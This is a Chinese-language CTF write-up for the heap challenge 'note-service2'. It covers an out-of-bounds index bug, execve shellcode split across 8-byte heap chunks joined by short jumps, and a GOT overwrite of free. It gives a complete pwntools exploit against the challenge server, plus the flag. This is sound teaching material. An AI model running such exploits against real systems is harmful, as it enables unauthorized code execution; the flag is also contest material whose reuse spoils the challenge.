


# note-service2

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=37283c31-c91e-4680-ac5b-6652b8237ecd_2&task_category_id=2)

关于堆的pwn题我就没做超过5道。

-   Arch:     amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    Canary found
    <br>NX:       NX disabled
    <br>PIE:      PIE enabled
    <br>RWX:      Has RWX segments

```c
void Main(void)
{
  undefined4 uVar1;
  do {
    PrintMenu();
    printf("your choice>> ");
    uVar1 = GetInput();
    switch(uVar1) {
    default:
      puts("invalid choice");
      break;
    case 1:
      AddNote();
      break;
    case 2:
      NoImplement();
      break;
    case 3:
      NotImplement();
      break;
    case 4:
      DelNote();
      break;
    case 5:
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  } while( true );
}
```

只有两个功能，4个选项里两个没写。先看AddNote。

```c
void AddNote(void)
{
  int iVar1;
  int iVar2;
  void *pvVar3;
  if ((-1 < DAT_0030209c) && (DAT_0030209c < 0xc)) {
    printf("index:");
    iVar1 = GetInput();
    printf("size:");
    iVar2 = GetInput();
    if ((-1 < iVar2) && (iVar2 < 9)) {
      pvVar3 = malloc((long)iVar2);
      *(void **)(&DAT_003020a0 + (long)iVar1 * 8) = pvVar3;
      if (*(long *)(&DAT_003020a0 + (long)iVar1 * 8) == 0) {
        puts("malloc error");
                    /* WARNING: Subroutine does not return */
        exit(0);
      }
      printf("content:");
      WriteSth(*(undefined8 *)(&DAT_003020a0 + (long)iVar1 * 8),iVar2);
      DAT_0030209c = DAT_0030209c + 1;
    }
  }
  return;
}
```

ghidra真的是抽象大师，跟ida的伪代码比起来简直乱七八糟，但是当你以为这个伪代码是错的时候，对照ida仔细读一遍会发现竟然没毛病。iVar2是要申请堆块的长度，必须小于9，因为是整数所以最大只有8。DAT_003020a0是堆的地址，*(void **)(&DAT_003020a0 + (long)iVar1 * 8) = pvVar3;这行代码是把DAT_003020a0中的指针指向刚刚malloc的puVar3。如果这段指针是0说明大小不够了，提示malloc error；否则把输入的content放到iVar1索引下的堆空间中。

iVar1可以随意控制，因此此处有索引越界问题。我们不仅可以控制堆里的内容，还可以控制堆外面的内容，比如填个负索引，以DAT_003020a0作为偏移就写入到其他的地方去了。所以我们要干什么呢？checksec的nx没开，说明堆栈可执行，也就是我们可以写shellcode，把shellcode写在堆里怎么样？

有个问题，每个堆最大8字节，\0要拿去做结尾，又吃掉了一字节，所以只剩下7字节可以写。不可能找到只长7字节的shellcode，所以要发挥缝合怪的能力，多拿几个堆把shellcode分成几段写入，然后连在一起。先选个不错的shellcode，越短越好，我们的空间是有限的。从[这里](https://blog.csdn.net/qq_42728977/article/details/103914342)找到的shellcode。



每个堆放一行shellcode，然后用jmp语句连在一起。jmp的语法是jmp short xxx，xxx=目标地址-当前地址-2。目标地址怎么算？难道就是每次加8个字节？并不是。堆的分配一次最小给16个字节，申请8个字节系统还是会给你16个字节。堆由prev_size、size、fd、bk组成，fd和bk是数据，加起来16字节；prev_size加size还有16字节，所以是32字节。



[参考](https://blog.csdn.net/seaaseesa/article/details/103003167)

所以费尽心思写shellcode拼shellcode，怎么调用呢？

```c
void DelNote(void)
{
  int iVar1;
  printf("index:");
  iVar1 = GetInput();
  free(*(void **)(&DAT_003020a0 + (long)iVar1 * 8));
  return;
}
```

你看这个free，接收一个参数，保护只有Partial RELRO。我们的shellcode正好缺一个传参数的地方，这不明摆着让我们改free的got表吗？把free的got地址改成堆的地址，下一次调用free的时候其实是调用了堆里写的shellcode。找一下堆和free的got的偏移。

XREF[2]:     free:00100890(T), free:00100890(c), 00302018(*)  

ghidra点击free然后划到右边可以看见这三行。标着*的就是free的got表地址。堆的地址更直白了，ghidra里命名是按地址命名的，所以那个堆的地址就是0x003020a0。(0x3020A0-0x302018)//8=17，堆比free高所以偏移是-17。来写[exp](https://blog.csdn.net/qq_42728977/article/details/103914342)。我稍微改了一下。

```python
from pwn import *
r = remote("61.147.171.105", 58388)
def add(idx, content):
    r.sendlineafter(b"your choice>> ", b"1")
    r.sendlineafter(b"index:", idx)
    r.sendlineafter(b"size:", b"8")
    r.sendlineafter(b"content", content)
def delete(idx):
    r.sendlineafter(b"your choice>> ", b"4")
    r.sendlineafter(b"index:", idx)
add(b"0", b"/bin/sh")
add(b"-17", b'\xb8;\x00\x00\x00' + b"\xeb\x19")
add(b"1", b'H1\xf6' + b"\x90\x90\xeb\x19")
add(b"2", b'H1\xd2' + b"\x90\x90\xeb\x19")
add(b"3", b'\x0f\x05' + b"\x90" * 5)
delete(b"0")
r.interactive()
```

本机无法编译shellcode，所以先用下面的脚本打印出来shellcode然后抄上去。

```python
from pwn import *
context( arch="amd64", os="linux")
print(asm("mov eax, 0x3b"))
print(asm("xor rsi, rsi"))
print(asm("xor rdx, rdx"))
print(asm("syscall"))
```

context必须要加，因为不加默认不是amd64，会编译不出来。\x90是nop，\xeb\x19是jmp。nop只是为了填充不够长的shellcode部分的。

- ### Flag
  > cyberpeace{8143968865d2a2ff00e13b074e090ec2}